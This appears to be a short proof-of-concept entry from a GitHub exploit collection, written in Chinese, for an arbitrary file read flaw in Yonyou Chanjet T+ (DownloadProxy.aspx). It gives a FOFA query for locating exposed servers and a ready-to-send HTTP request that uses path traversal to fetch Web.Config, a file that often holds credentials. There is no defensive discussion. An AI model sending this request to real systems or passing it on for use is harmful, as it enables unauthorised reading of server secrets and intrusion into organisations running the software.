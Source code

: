 ## 用友畅捷通TPlus-DownloadProxy.aspx任意文件读取漏洞

## fofa
```
app="畅捷通-TPlus"
```


## poc
```
GET /tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config HTTP/1.1
X-Ajaxpro-Method: GetStoreWarehouseByStore
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![cb01e991a8d9d86820031fd9d3e58e10](https://github.com/wy876/POC/assets/139549762/b9b44980-b4e0-45d4-9317-790954318e04)
